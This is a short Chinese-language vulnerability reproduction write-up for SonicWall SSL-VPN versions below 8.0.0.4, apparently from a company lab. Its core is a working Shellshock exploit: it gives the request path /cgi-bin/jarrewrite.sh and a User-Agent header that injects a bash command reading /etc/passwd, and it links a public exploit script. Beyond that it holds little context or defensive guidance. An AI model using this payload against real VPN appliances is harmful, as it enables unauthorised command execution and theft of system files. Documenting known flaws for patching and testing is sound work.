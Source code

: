 # 0x00 软件介绍
SonicWall：一款VPN解决方案，包含WEB界面、VPN功能等

# 0x01 复现环境
复现环境：公司实验室  
复现版本：SonicWall  
环境搭建：  
略

# 0x02 利用条件
无

# 0x03 影响版本
SonicWall SSL-VPN < 8.0.0.4

# 0x04 漏洞复现
攻击环境：kali x64  
访问目标，burp抓包，将访问地址修改为
```
/cgi-bin/jarrewrite.sh
```
将User-Agent修改为
```
User-Agent: () { :; }; echo ; /bin/bash -c 'cat /etc/passwd'
```
如下图
![image](./0.png)

# 0x05 批量脚本
无

# 0x06 参考链接
https://github.com/darrenmartyn/VisualDoor/blob/main/visualdoor.py

